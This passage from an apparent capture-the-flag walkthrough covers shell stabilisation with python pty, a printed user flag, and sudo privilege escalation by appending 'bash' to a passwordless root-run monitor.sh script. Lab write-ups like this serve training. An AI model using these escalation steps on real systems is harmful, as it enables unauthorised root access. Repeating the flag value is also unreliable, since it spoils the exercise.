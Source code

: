 ![](./IMG/28.png)
- Using python to change to fully shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![](./IMG/29.png)
- Check user 
```
id
```

![](./IMG/30.png)
- Get flag: ```15ad5a7f757ff8312de49cfe6a0d5db4```

![](./IMG/31.png)

## Post Exploitation 

![](./IMG/32.png)
- Check sudo permission for nibbler
```
sudo -l
```
- User nibbler can use root permission to execute monitor shell file without password
- So write "bash" to the bottom of monitor shell file
```
echo "bash" >> monitor.sh
```
- Execute it with sudo
```
sudo ./monitor.sh
```